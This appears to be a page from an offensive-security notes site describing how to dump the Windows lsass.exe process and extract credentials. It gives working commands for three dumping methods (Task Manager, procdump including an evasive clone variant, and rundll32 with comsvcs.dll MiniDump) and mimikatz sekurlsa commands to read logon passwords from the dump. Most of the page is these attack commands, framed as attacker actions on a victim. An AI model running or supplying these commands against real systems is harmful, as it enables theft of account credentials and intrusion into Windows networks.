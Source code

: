 # Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28406%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}

